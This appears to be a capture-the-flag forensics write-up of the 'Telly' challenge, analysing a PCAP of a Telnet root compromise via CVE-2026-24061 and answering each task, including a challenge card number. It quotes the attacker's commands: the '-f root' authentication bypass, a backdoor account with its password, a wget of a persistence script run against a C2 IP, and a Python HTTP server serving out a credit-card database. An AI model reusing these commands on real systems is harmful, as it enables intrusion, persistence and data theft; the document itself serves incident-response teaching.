# HTB Sherlock — Telly

**Category:** DFIR / Network Forensics
**Difficulty:** Easy
**Author:** Djibril Gathoni
**Date:** July 2026

---

## Scenario

You are a Junior DFIR Analyst at an MSSP that provides continuous monitoring and DFIR services to
SMBs. Your supervisor has tasked you with analyzing network telemetry from a compromised backup
server. A DLP solution flagged a possible data exfiltration attempt from this server. According to
the IT team, this server wasn't very busy and was sometimes used to store backups.

---

## Tools Used

- Wireshark — PCAP analysis, TCP stream reconstruction, HTTP object export
- `sqlite3` — querying the exfiltrated database
- `unzip` — extracting the HTB-provided artifact
- Knowledge of Telnet protocol negotiation and CVE-2026-24061

---

## Investigation

### Setup — Extracting the Artifact

The investigation starts by locating the HTB-provided archive in the Downloads folder:



Extract using the HTB-provided password:

```bash
cd ~/Downloads/telly
unzip Telly.zip
```


Open the PCAP in Wireshark:

```bash
wireshark Telly/monitoringservice_export_202610AM-11AM.pcapng
```



---

### Task 1 — What CVE is associated with the vulnerability exploited in the Telnet protocol?

Filtering for Telnet traffic (`tcp.port == 23`) and following the relevant TCP stream (Stream 14),
the exploitation technique is visible right at the top:


The attacker passed `-f root` as the `NEW-ENVIRON USER` value during Telnet option negotiation.
This tricks the `login` binary into treating `root` as pre-authenticated, bypassing the password
check entirely — the technique associated with **CVE-2026-24061**.

**Answer:** `CVE-2026-24061`



---

### Task 2 — When was the Telnet vulnerability successfully exploited, granting the attacker remote root access?

Still within TCP Stream 14, the Ubuntu MOTD banner printed immediately after the root shell was
granted includes the system's own timestamp:

```
Linux 6.8.0-90-generic (backup-secondary) (pts/1)
"Welcome to Ubuntu 24.04.3 LTS (GNU/Linux 6.8.0-90-generic x86_64)"
System information as of Tue Jan 27 10:39:28 UTC 2026
```



That system timestamp marks the exact moment the attacker gained root access.

**Answer:** `2026-01-27 10:39:28`



---

### Task 3 — What is the hostname of the targeted server?

The hostname appears in the same stream in two places: the kernel banner
(`Linux 6.8.0-90-generic (backup-secondary)`) and every subsequent shell prompt
(`root@backup-secondary:~#`).

**Answer:** `backup-secondary`



---

### Task 4 — The attacker created a backdoor account to maintain future access. What username and password were set for that account?

Still within TCP Stream 14, the attacker ran:

```bash
sudo useradd -m -s /bin/bash cleanupsvc; \
echo "cleanupsvc:YouKnowWhoiam69" | sudo chpasswd
```

The account was deliberately named `cleanupsvc` to blend in as a legitimate maintenance service
account — a classic technique to avoid detection during a casual review of system users. Its
creation was later confirmed in a `/etc/shadow` dump the attacker performed, where its epoch date
(`20480`) sits one day after every legitimate account (`20479`).

**Answer:** `cleanupsvc:YouKnowWhoiam69`


---

### Task 5 — What was the full command the attacker used to download the persistence script?

Individual Telnet data packets in Stream 14 capture the attacker's keystrokes one character at a
time. Tracking frames in chronological order (3940 → 3943 → 3946 → 3951) spells out the command as
it was typed, letter by letter:






Reassembling the full stream, the attacker downloaded the open-source Linux persistence framework
**linper.sh** from GitHub into `/tmp`:

```bash
wget https://raw.githubusercontent.com/montysecurity/linper/refs/heads/main/linper.sh
chmod +x linper.sh
```

**Answer:** `wget https://raw.githubusercontent.com/montysecurity/linper/refs/heads/main/linper.sh`



---

### Task 6 — The attacker installed remote access persistence using the persistence script. What is the C2 IP address?

The attacker ran `linper.sh` with the C2 IP and port as arguments:

```bash
bash linper.sh 91.99.25.54 --p 59 --stealth-mode
```



The `--stealth-mode` flag instructed linper to timestomp all modified persistence files and install
persistence across multiple vectors simultaneously — `/var/spool/cron/crontabs/root`,
`/etc/crontab`, `/etc/cron.d/`, `/etc/systemd/`, and `/etc/rc.local` (via `bash`, `nc`, `perl`,
`python3`, `pwsh`, and `telnet`).

**Answer:** `91.99.25.54`



---

### Task 7 — The attacker exfiltrated a sensitive database file. At what time was this file exfiltrated?

After establishing persistence, the attacker navigated to `/opt` and found a sensitive database:
`/opt/credit-cards-25-blackfriday.db`. They served it over HTTP using Python's built-in HTTP
server on port 6932:

```bash
python3 -m http.server 6932
```

Filtering the PCAP for `tcp.port == 6932` reveals the exfiltration event — the HTTP access log
entry inside the Telnet-relayed shell session confirms the exact timestamp:

```
192.168.72.131 - - [27/Jan/2026 10:49:54] "GET /credit-cards-25-blackfriday.db HTTP/1.1" 200 -
```


The attacker then deleted the file to cover their tracks.

**Answer:** `2026-01-27 10:49:54`



---

### Task 8 — Analyze the exfiltrated database. Find the credit card number for a customer named Quinn Harris.

The database was carved out of the PCAP via **File → Export Objects → HTTP** in Wireshark, then
queried directly:

```bash
sqlite3 credit-cards-25-blackfriday.db
```

```sql
.tables
-- purchases

PRAGMA table_info(purchases);
-- id, email, creditcardnumber, purchase_date, item_purchased

SELECT * FROM purchases WHERE email LIKE '%quinn.harris%';
-- 12|quinn.harris@hotmail.com|5312269047781209|2025-12-08|4K monitor
```



**Answer:** `5312269047781209`



---

## Attack Timeline

| Time (UTC)              | Action                                                             |
| ------------------------ | ------------------------------------------------------------------ |
| 2026-01-27 10:39:28       | Attacker exploits CVE-2026-24061 via Telnet, gains root on `backup-secondary` |
| 2026-01-27 10:39:28+       | Backdoor account created: `cleanupsvc:YouKnowWhoiam69`            |
| 2026-01-27 10:39:28+       | `linper.sh` downloaded from GitHub and executed against C2 `91.99.25.54:59` (stealth mode) |
| 2026-01-27 10:39:28+       | Persistence installed across cron, systemd, and rc.local          |
| 2026-01-27 ~10:49:xx       | Attacker discovers `/opt/credit-cards-25-blackfriday.db`, serves it via `python3 -m http.server 6932` |
| 2026-01-27 10:49:54       | Database exfiltrated                                              |
| 2026-01-27 10:49:54+       | Database deleted to cover tracks                                  |

---

## Key Takeaways

- **Telnet should never be exposed** — it transmits data in plaintext and carries critical
  vulnerabilities like CVE-2026-24061. Replace with SSH.
- **Monitoring legacy protocol ports** (port 23) would have flagged this intrusion immediately.
- **Backup servers are high-value targets** — they often store sensitive data and receive less
  security attention than production systems.
- **DLP solutions work** — the exfiltration was caught by the DLP alert that triggered this
  investigation.
- **Open-source persistence tools** like `linper.sh` are freely available and actively used by
  threat actors to establish multi-vector, stealth persistence in seconds.
- **Telnet's plaintext nature is a double-edged sword for the attacker** — every keystroke,
  including the exact command used to fetch their tooling, was fully reconstructable from the
  capture.

---

*Writeup by Djibril Gathoni | [LinkedIn](https://linkedin.com/in/djibrilgathoni) | [GitHub](https://github.com/Djibrilgathoni)*
